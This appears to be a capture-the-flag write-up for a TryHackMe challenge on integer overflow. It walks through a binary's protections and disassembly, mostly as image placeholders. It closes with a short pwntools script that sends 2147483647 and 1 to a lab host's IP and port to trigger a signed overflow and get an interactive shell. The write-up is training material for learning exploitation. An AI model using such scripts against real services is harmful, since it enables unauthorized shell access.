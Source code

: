 **THM - PWN 101 - Integer Overflow (PWN105)**

## **Gathering information**

### **Program behaviour**

Program takes 2 integers and sums it.


![](p/1.png)


### **Binary security**

Binary seems to be well protected.


![](p/2.png)


Stack canaries are enabled, non-executable bit is set and even there is address randomization. 


## **Reversing binary**

### **Functions**


![](p/3.png)


### **Disassembling `main()`**


Below part of disassembled code is responsible for taking input from user and adding integers.


![](p/4.png)


Below part is very interesting, when the result of adding operation is negative (and entered values are positive) we jump to `0x1384` address, where we get shell.


![](p/5.png)


![](p/6.png)

## **Exploitation (Proof Of Concept)**

To obtain negative value from adding two positive values we need to overflow the interger. For example `int` type has the range [-2147483648 to 2147483647], so we can try to add 2147483647 and 1.

```python
from pwn import *

process = remote('10.10.165.139', '9005')
process.recv()
process.sendline("2147483647")
process.recv()
process.sendline("1")
process.interactive()
```


![](p/7.png)


We have successfully exploited integer overflow.



